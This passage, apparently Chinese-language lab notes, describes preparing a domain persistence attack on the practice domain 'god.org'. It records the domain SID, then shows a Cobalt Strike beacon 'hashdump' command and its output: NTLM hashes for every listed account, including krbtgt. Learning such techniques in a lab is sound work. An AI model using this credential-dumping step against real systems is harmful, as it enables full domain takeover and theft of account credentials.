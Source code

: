 ### 实验

- 条件已经拿到了域的权限
1. 获取域SID以及域名称
    
    ![image.png](image%2028.png)
    
    ![image.png](image%2029.png)
    
    域名称`god.org` ,`SID`为`S-1-5-21-2952760202-1353902439-2381784089` 后面的`500`不需要
    
2. 获取`KRBTGT` 的`NTLM`的`HASH`
    
    我这里使用`CS`抓取
    
    ```python
    beacon> hashdump
    [*] Tasked beacon to dump hashes
    [+] host called home, sent: 82541 bytes
    [+] received password hashes:
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:f98564f9c7fab916678466075899f6e1:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:58e91a5ac358d86513ab224312314061:::
    liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:f98564f9c7fab916678466075899f6e1:::
    ligang:1106:aad3b435b51404eeaad3b435b51404ee:1e3d22f88dfd250c9312d21686c60f41:::
    OWA$:1001:aad3b435b51404eeaad3b435b51404ee:35c29a27ff5086ba975d49493673eddb:::
    ROOT-TVI862UBEH$:1104:aad3b435b51404eeaad3b435b51404ee:c1e8fa40153fef225ce4f3d627181bcf:::
    STU1$:1105:aad3b435b51404eeaad3b435b51404ee:75c2c82fa50b7716428d85372374b139:::
    DEV1$:1107:aad3b435b51404eeaad3b435b51404ee:bed18e5b9d13bb384a3041a10d43c01b:::
    ```
    